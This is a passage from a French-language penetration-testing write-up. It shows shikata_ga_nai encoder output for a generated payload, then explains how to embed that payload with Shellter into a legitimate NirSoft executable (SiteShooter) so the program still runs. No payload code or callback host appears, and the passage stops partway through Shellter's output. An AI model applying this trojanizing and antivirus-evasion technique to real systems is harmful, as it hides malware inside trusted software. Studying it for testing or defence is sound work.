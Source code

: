 ```console
x86/shikata_ga_nai succeeded with size 741 (iteration=3)
x86/shikata_ga_nai succeeded with size 768 (iteration=4)
x86/shikata_ga_nai succeeded with size 795 (iteration=5)
x86/shikata_ga_nai succeeded with size 822 (iteration=6)
x86/shikata_ga_nai succeeded with size 849 (iteration=7)
x86/shikata_ga_nai succeeded with size 876 (iteration=8)                                                                                                                                                                                     
x86/shikata_ga_nai chosen with final size 876                                                                                                                                                                                                
Payload size: 876 bytes                                                                                                                                                                                                                      
Saved as: custom_payload
```

Ensuite j'utilise `Shellter` pour intégrer le payload dans un exécutable Win32.  

Le choix de l'exécutable se fera généralement pour un programme assez gros (suffisamment d'instructions), qui fonctionne en ligne de commande (si on utilise le mode *Stealth* de `Shellter` qui conserve le fonctionnement du programme hôte) et qui n'a pas de système de vérification d'intégrité (du genre un installeur).  

Dans l'exemple çi-dessous j'utilise [SiteShooter](http://www.nirsoft.net/utils/web_site_screenshot.html) de *NirSoft* mais il est tout à fait possible d'utiliser d'autres exécutables. Il faudra parfois plusieurs tentatives avant de trouver des paramètres adéquats pour `Shellter`. Les exécutables de *NirSoft* sont packés avec [UPX](https://upx.github.io/), j'ai préalablement unpacké *SiteShooter.exe* avant de le passer à `Shellter` (`upx.exe -d SiteShooter.exe`).  

```plain
        1010101 01   10 0100110 10     01  11001001 0011101 001001
        11      10   01 00      01     01     01    10      11   10
        0010011 1110001 11011   11     10     00    10011   011001
             11 00   10 01      11     01     11    01      01   11
        0010010 11   00 0011010 100111 000111 00    1100011 01   10 v6.9
        www.ShellterProject.com                     Wine Mode

Choose Operation Mode - Auto/Manual (A/M/H): A

PE Target: /tmp/SiteShoter.exe

**********
* Backup *
**********

Backup: Shellter_Backups\SiteShoter.exe

********************************
* PE Compatibility Information *
********************************

Minimum Supported Windows OS: 4.0

Note: It refers to the minimum required Windows version for the target
      application to run. This information is taken directly from the
      PE header and might be not always accurate.

******************
* Packed PE Info *
******************

Status: Possibly Not Packed - The EntryPoint is located in the first section!

***********************
```